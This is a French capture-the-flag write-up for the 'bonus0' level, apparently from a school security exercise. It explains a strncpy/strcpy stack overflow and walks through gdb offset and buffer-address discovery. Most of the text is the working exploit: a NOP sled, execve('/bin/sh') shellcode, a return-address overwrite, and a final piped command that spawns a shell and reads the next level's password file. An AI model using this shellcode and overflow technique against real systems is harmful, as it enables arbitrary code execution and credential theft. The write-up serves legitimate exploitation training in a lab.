 bonus0:
Il y a 3 fonctions, main, pp et p. Pas de gateway vers un shell admin donc a priori on va devoir run notre propre shellcode.

La faille ici est l'usage de strncpy puis strcpy. strncpy est "sécurisé", le nombre de caractères est précisé, mais si la string copiée dépasse le nombre, elle est copiée sans qu'un \0 soit ajouté à la fin. Ensuite, strcpy est utilisé, et cette fonction s'arrête uniquement quand elle rencontre un \0. Donc si on dépasse le nombre de caractères que strncpy utilise (20), lorsque strcpy est utilisé dans ce bout de code :
```
    p(a," - ");
    p(b," - ");
    strcpy(string,a);
```
Il va déborder sur b, et écrire plus que prévu. Le buffer dans le main fait 42
```
   0x080485aa <+6>:     sub    $0x40,%esp
   0x080485ad <+9>:     lea    0x16(%esp),%eax
0x40 - 0x16 = 64 - 22 = 42
```
Logique vu que a[20] + espace + b[20] + EOL = 42 caractères. Donc on va pouvoir l'overflow parce qu'on va se retrouver avec a + b + espace + b. Avec cet overflow, on pourra override EIP pour le faire pointer vers notre shellcode, qu'on va stocker dans notre grand buffer de 4096.
 
On met 21 caractères en 1er argument et on utilise un générateur de pattern avec le 2ème pour trouver l'offset
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9
```
Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
(gdb) info frame
Stack level 0, frame at 0xbffff6c4:
 eip = 0x41336141; saved eip 0x61413461
 called by frame at 0xbffff6c8
 Arglist at 0xbffff6bc, args:
 Locals at 0xbffff6bc, Previous frame's sp is 0xbffff6c4
 Saved registers:
  eip at 0xbffff6c0
```
L'offset est à 9.

Il ne reste plus qu'à trouver l'adresse du buffer à 4096 pour pouvoir faire pointer EIP dessus.
On utilise gdb pour mettre un breakpoint juste après l'appel à la fonction read, et on cherche dans $esp ou apparaissent les 41
```
disass p
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
=> 0x080484e6 <+50>:    movl   $0xa,0x4(%esp)
b *p+50
r
On entre plein de AAAAAA
x/100x $esp
(gdb) x/100x $esp
0xbfffe660:     0x00000000      0xbfffe670      0x00001000      0x00000000
0xbfffe670:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe680:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe690:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe6a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe6b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffe6d0:     0x0000000a      0x00000000      0x00000000      0x00000000
0xbfffe6e0:     0x00000000      0x00000000      0x00000000      0x00000000
[...]
```
L'adresse du buffer est 0xbfffe670 (attention gdb peut faire varier l'adresse de +16 mais dans notre cas on a de la marge de manoeuvre pour atterir dans la nopsled)
On prend une valeur plus grande pour être sûr d'atterir dans la nopsled, +100 par exemple : BFFFE6D4


Argument 1 : `python -c "print('\x90' * 500 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')"`
- On a une large NOPsled suivie de notre shellcode

Argument 2 : `python -c "print('A' * 9 + '\xd4\xe6\xff\xbf' + 'A' * 7)"`
- A * 9 pour que notre adresse custom override l'emplacement de EIP et A * 7 pour completer afin que la string fasse bien 20 caractères pour overflow.

`(python -c 'print "\x90" * 500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A" * 9 + "\xd4\xe6\xff\xbf" + "A" * 7'; echo "cat /home/user/bonus1/.pass") | ./bonus0`
